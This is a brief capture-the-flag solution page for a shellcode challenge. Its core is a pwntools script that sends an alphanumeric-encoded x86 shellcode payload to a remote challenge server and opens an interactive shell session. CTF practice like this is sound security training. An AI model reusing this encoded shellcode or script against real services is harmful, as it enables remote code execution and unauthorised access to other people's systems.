 #### Goals
 * Get the flag

#### Solution
```python

#!/usr/bin/env python

from pwn import *

# Io = process("./shellcode")
Io = remote("pwn.sniperoj.cn", 30010)
shellcode = "TX-BTUU-BTUU-BTUUP\%IIII%0000-&%%%-%%%%-%%%%P%IIII%0000-+%%%-+%%%-*%%%P%IIII%0000-1(^e-1'^e-0'`gP%IIII%0000-3F52-3E42-2E42P%IIII%0000-FF/3-FE/2-EE.2P%IIII%0000-oQ:3-pQ:2-qQ:2P%IIII%0000-EgW^-EgW_-EhY`PPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPP"
payload = shellcode
Io.sendline(payload)
Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

